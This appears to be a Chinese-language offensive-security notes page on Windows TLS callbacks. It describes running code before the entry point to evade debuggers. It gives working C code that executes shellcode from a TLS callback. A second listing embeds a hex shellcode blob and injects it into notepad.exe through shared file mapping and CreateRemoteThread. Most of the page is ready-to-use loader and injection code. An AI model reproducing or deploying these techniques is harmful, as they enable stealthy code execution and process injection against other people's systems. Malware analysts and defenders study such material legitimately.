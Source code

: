 # TLS Code Execute

## TLS简介

> 线程局部存储（Thread Local Storage，TLS）用来将数据与一个正在执行的指定线程关联起来。
>
> 进程中的全局变量与函数内定义的静态\(static\)变量，是各个线程都可以访问的共享变量。在一个线程修改的内存内容，对所有线程都生效。这是一个优点也是一个缺点。说它是优点，线程的数据交换变得非常快捷。说它是缺点，一个线程死掉了，其它线程也性命不保; 多个线程访问共享数据，需要昂贵的同步开销，也容易造成同步相关的BUG。
>
> 如果需要在一个线程内部的各个函数调用都能访问、但其它线程不能访问的变量（被称为static memory local to a thread 线程局部静态变量），这就是TLS。

TLS提供了一个回调函数\(callback function\)，在线程程初始化和终止的时候都会调用，由于回调函数会在入口点\(EP\)前执行，而调试器通常会默认在主函数入口点main设置断点，所以常常被用来作为反调试手段使用，同时回调函数允许我们自由编写任意代码，TLS分为静态TLS和动态TLS，静态TLS会把TLS相关数据硬编码在PE文件内，在本篇文章内我们使用静态TLS来实现代码执行。

## 静态TLS

TLS回调函数遵循特殊的编写约定，与dll主函数相似。

```text
typedef VOID
(NTAPI *PIMAGE_TLS_CALLBACK) (
 PVOID DllHandle, 
 DWORD Reason, //Reason 遵循dll调用时相同的参数
 PVOID Reserved
 );
```

静态TLS存储在PE头IMAGE\_DATA\_DIRECTORY DataDirectory\[9\]的位置，同其他目录表数组一样，也是8字节结构 \(VA+Size\)，从TLS的VA处，可以找到该目录的详细信息。

```text
typedef struct _IMAGE_TLS_DIRECTORY32 {   //SIZE:0x18h
    DWORD   StartAddressOfRawData;
    DWORD   EndAddressOfRawData;
    DWORD   AddressOfIndex;             // PDWORD
    DWORD   AddressOfCallBacks;         // PIMAGE_TLS_CALLBACK *
    DWORD   SizeOfZeroFill;
    DWORD   Characteristics;
} IMAGE_TLS_DIRECTORY32;
typedef IMAGE_TLS_DIRECTORY32 * PIMAGE_TLS_DIRECTORY32;
```

## 代码实现

```text
#include <Windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE") 

unsigned char buf[] ="shellcode";


VOID NTAPI TlsCallBack(PVOID DllHandle, DWORD dwReason, PVOID Reserved) 
//DllHandle模块句柄、Reason调用原因、 Reserved加载方式（显式/隐式）
{
	if (dwReason == DLL_PROCESS_ATTACH)
	{
		((void(WINAPI*)(void)) & buf)();
	}

}
//使用TLS需要在程序中新建一个.tls段专门存放TLS数据，申明使用
#pragma comment (linker, "/INCLUDE:__tls_used")
#pragma comment (linker, "/INCLUDE:__tls_callback")



#pragma data_seg (".CRT$XLB")
//.CRT表明是使用C RunTime机制，$后面的XLB中：X表示随机的标识
//L表示是TLS callback section，B可以被换成B到Y之间的任意一个字母，
//但是不能使用“.CRT$XLA”和“.CRT$XLZ”，因为“.CRT$XLA”和“.CRT$XLZ”是用于tlssup.obj的。
EXTERN_C PIMAGE_TLS_CALLBACK _tls_callback = TlsCallBack;
#pragma data_seg ()

int main()
{
	printf("ok");
	return 0;
}
```

x64的回调函数声明使用别的预处理指令

```text
EXTERN_C
#pragma const_seg (".CRT$XLB")
const PIMAGE_TLS_CALLBACK _tls_callback = TlsCallBackCheckDbugger;
#pragma const_seg ()
```

## 扩展

由于TLS调用时通常已经初始化了所以进程相关信息\(DLL加载、PEB分配\)，所以理论上我们能在TLScallback函数内实现任意代码，理论上我们能在TLS实现其他任意技术,如在TLS回调函数内实现Mapping注入技术。

```text
#include <Windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE") 
#pragma comment (lib, "OneCore.lib")
#include <Tlhelp32.h>

char shellcode[]=
"\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9\x64\x8b"
"\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08\x8b\x7e\x20\x8b"
"\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1\xff\xe1\x60\x8b\x6c\x24"
"\x24\x8b\x45\x3c\x8b\x54\x28\x78\x01\xea\x8b\x4a\x18\x8b\x5a"
"\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0"
"\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c"
"\x24\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5a"
"\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c\x61\xc3\xb2"
"\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e\x0e\xec\x52\xe8\x9f"
"\xff\xff\xff\x89\x45\x04\xbb\x7e\xd8\xe2\x73\x87\x1c\x24\x52"
"\xe8\x8e\xff\xff\xff\x89\x45\x08\x68\x6c\x6c\x20\x41\x68\x33"
"\x32\x2e\x64\x68\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89"
"\xe6\x56\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
"\x24\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68\x61\x67"
"\x65\x42\x68\x4d\x65\x73\x73\x31\xdb\x88\x5c\x24\x0a\x89\xe3"
"\x68\x58\x20\x20\x20\x68\x4d\x53\x46\x21\x68\x72\x6f\x6d\x20"
"\x68\x6f\x2c\x20\x66\x68\x48\x65\x6c\x6c\x31\xc9\x88\x4c\x24"
"\x10\x89\xe1\x31\xd2\x52\x53\x51\x52\xff\xd0\x31\xc0\x50\xff"
"\x55\x08";


DWORD pid;
VOID NTAPI TlsCallBack(PVOID DllHandle, DWORD dwReason, PVOID Reserved) 
{
	WCHAR lpszProcessName[] = L"notepad.exe";
	if (dwReason == DLL_PROCESS_ATTACH)
	{
		HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

		PROCESSENTRY32 pe;
		pe.dwSize = sizeof pe;

		if (Process32First(hSnapshot, &pe))
		{
			do {
				if (lstrcmpi(lpszProcessName, pe.szExeFile) == 0)
				{
					CloseHandle(hSnapshot);
					pid = pe.th32ProcessID;
					break;
				}
			} while (Process32Next(hSnapshot, &pe));
		}

		//
		HANDLE hMapping = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sizeof(shellcode), NULL);

		LPVOID lpMapAddress = MapViewOfFile(hMapping, FILE_MAP_WRITE, 0, 0, sizeof(shellcode));

		memcpy((PVOID)lpMapAddress, shellcode, sizeof(shellcode));



		HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

		LPVOID lpMapAddressRemote = MapViewOfFile2(hMapping, hProcess, 0, NULL, 0, 0, PAGE_EXECUTE_READ);

		HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)lpMapAddressRemote, NULL, 0, NULL);

		UnmapViewOfFile(lpMapAddress);
		CloseHandle(hMapping);
	}

}

#pragma comment (linker, "/INCLUDE:__tls_used")
#pragma comment (linker, "/INCLUDE:__tls_callback")



#pragma data_seg (".CRT$XLB")
EXTERN_C PIMAGE_TLS_CALLBACK _tls_callback = TlsCallBack;
#pragma data_seg ()




int main()
{
	return 0;
}
```



![](../.gitbook/assets/image%20%2889%29.png)

## LINKS

{% embed url="http://www.hackdig.com/?03/hack-2257.htm" %}

{% embed url="https://www.cnblogs.com/kuangke/p/7590657.html" %}

{% embed url="https://blog.csdn.net/hotspurs/article/details/90298636" %}

{% embed url="https://blog.csdn.net/qq\_18218335/article/details/69357016?utm\_medium=distribute.pc\_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.nonecase&depth\_1-utm\_source=distribute.pc\_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.nonecase" %}





